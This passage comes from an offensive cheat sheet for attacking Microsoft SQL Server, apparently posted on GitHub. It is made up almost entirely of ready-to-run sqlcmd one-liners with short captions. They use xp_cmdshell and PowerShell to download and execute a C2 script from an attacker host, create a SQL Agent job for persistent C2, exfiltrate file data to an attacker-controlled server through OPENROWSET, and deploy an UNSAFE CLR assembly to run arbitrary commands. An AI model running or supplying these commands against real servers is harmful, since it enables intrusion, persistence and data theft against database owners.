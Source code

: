 #### 16.1 Command and Control via MSSQL
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'powershell -c IEX (New-Object Net.WebClient).DownloadString(''http://<attacker_ip>/c2.ps1'');';"
  ```
  Set up a command and control channel using `xp_cmdshell` and PowerShell.

#### 16.2 Persistence via SQL Server Jobs
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC msdb.dbo.sp_add_job @job_name='PersistentC2', @enabled=1, @description='Command and Control persistence'; EXEC msdb.dbo.sp_add_jobstep @job_name='PersistentC2', @step_name='CommandStep', @subsystem='CmdExec', @command='powershell -c IEX (New-Object Net.WebClient).DownloadString(''http://<attacker_ip>/c2.ps1'');'; EXEC msdb.dbo.sp_add_jobserver @job_name='PersistentC2'; EXEC msdb.dbo.sp_start_job @job_name='PersistentC2';"
  ```
  Create a persistent command and control mechanism via SQL Server Agent Jobs.

#### 16.3 Data Staging and Exfiltration via SQL Server
- **SQLCMD (Linux)**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE TABLE #staging (data NVARCHAR(MAX)); BULK INSERT #staging FROM 'C:\\SensitiveData.txt'; INSERT INTO OPENROWSET('SQLNCLI', 'Server=<attacker_ip>;Uid=<username>;Pwd=<password>;', 'SELECT * FROM <database>.<schema>.<table>') SELECT * FROM #staging;"
  ```
  Stage and exfiltrate data by transferring it to an attacker-controlled SQL Server.

## 18. Advanced Exploitation Techniques

### 18.1 Leveraging CLR Assemblies for Exploitation
- **Deploying a Custom CLR Assembly**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE ASSEMBLY myAssembly FROM 'C:\Path\To\Assembly.dll' WITH PERMISSION_SET = UNSAFE;"
  ```
  Deploy a custom Common Language Runtime (CLR) assembly to execute arbitrary code within the SQL Server environment.

- **Executing CLR Assembly Commands**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE PROCEDURE execCmd(@cmd NVARCHAR(4000)) AS EXTERNAL NAME myAssembly.[Namespace.ClassName].MethodName;"
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC execCmd 'whoami';"
  ```
  Execute commands through a deployed CLR assembly.

### 18.2 Exploiting SQL Server Extended Events
- **Creating Malicious Extended Events**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE EVENT SESSION [maliciousSession] ON SERVER ADD EVENT sqlserver.module_end(SET collect_column = (object_id)) ADD TARGET package0.asynchronous_file_target(SET filename=N'C:\path\to\file.xel');"
  ```
  Create a malicious Extended Events session to capture and log sensitive data.

